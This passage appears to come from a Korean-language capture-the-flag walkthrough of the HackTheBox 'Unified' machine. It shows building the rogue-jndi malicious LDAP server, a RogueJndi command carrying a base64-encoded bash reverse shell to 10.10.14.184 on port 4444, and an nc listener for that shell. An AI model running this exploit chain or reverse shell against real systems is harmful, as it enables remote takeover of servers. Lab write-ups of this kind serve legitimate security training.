 ```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

![jndi](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/jndi.png)

위와 같이 입력하면 악성 LDAP 서버 실행 준비를 마쳤다.

이제 리버스 쉘을 전달할 명령어를 만들어야 한다. 명령어를 base64로 인코딩한다.

![base64](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/base64.png)

인코딩 값을 같이 입력하여 컴파일한다.

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTg0LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.184"
```

![jar](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/jar.png)

이때 매핑하고 있는 ldap 서버를 잘 보면 포트 값을 1389번으로 입력해 주고 있다.

nc로 리버스 쉘 코드로 설정한 4444번 포트를 리스닝한다.
